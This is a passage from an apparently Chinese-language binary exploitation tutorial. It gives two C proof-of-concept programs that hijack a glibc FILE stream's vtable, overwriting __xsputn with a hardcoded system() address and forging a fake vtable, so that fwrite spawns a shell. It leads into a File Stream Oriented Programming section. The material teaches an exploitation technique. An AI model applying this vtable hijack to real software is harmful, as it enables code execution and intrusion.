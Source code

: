 ```cpp
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>

#define system_ptr 0x00007ffff7a0d000+0x45390

int main() {
    FILE *fp;
    uint64_t *vtable_ptr;
    fp = fopen("1.txt", "rw");
    if (!fp) {
        printf("file not existed.\n");
        exit(-1);
    }
    vtable_ptr = *(uint64_t *)((uint64_t)fp + 0xd8);
    memcpy(fp, "sh", 3);
    vtable_ptr[7] = system_ptr; // __xsputn
    fwrite("X", 1, 1, fp);
    return 0;
}
```

在可控区域伪造一个 vtable 来替换原来的 vtable 是可行的：

```cpp
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>

#define system_ptr 0x00007ffff7a0d000+0x45390

int main() {
    FILE *fp;
    uint64_t *vtable_addr, *fake_vtable;
    fp = fopen("1.txt", "rw");
    if (!fp) {
        printf("file not existed.\n");
        exit(-1);
    }
    fake_vtable = malloc(0x40);
    vtable_addr = (uint64_t *)((uint64_t)fp + 0xd8);
    vtable_addr[0] = (uint64_t)fake_vtable;
    memcpy(fp, "sh", 3);
    fake_vtable[7] = system_ptr; // __xsputn
    fwrite("X", 1, 1, fp);
    return 0;
}
```

## File Stream Oriented Programming（FSOP）
